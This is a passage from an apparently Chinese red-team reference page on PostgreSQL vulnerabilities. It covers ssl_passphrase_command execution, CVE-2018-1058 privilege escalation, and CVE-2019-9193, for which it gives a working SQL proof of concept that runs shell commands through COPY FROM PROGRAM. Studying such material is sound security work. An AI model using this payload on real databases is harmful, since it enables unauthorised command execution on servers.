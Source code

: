 可以看到,重新加载配置文件后,ssl_passphrase_command 中的命令已经执行

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/48.png)

### CVE-2018-1058 PostgreSQL 提权漏洞

**漏洞描述**

PostgreSQL 其 9.3 到 10 版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

**相关文章**
- [PostgreSQL 远程代码执行漏洞分析及利用—【CVE-2018-1058】](https://xz.aliyun.com/t/2109)

**POC | Payload | exp**
- [PostgreSQL 提权漏洞（CVE-2018-1058）](https://vulhub.org/#/environments/postgres/CVE-2018-1058/)

### CVE-2019-9193 PostgreSQL 高权限命令执行漏洞

**漏洞描述**

PostgreSQL 其 9.3 到 11 版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

**利用条件**
- 版本 9.3-11.2
- 超级用户或者 pg_read_server_files 组中的任何用户

**相关文章**
- [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
  - [PostgreSQL（从版本9.3至11.2）任意命令执行漏洞（CVE-2019-9193）](https://nosec.org/home/detail/2368.html)

**POC | Payload | exp**
```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/3.png)
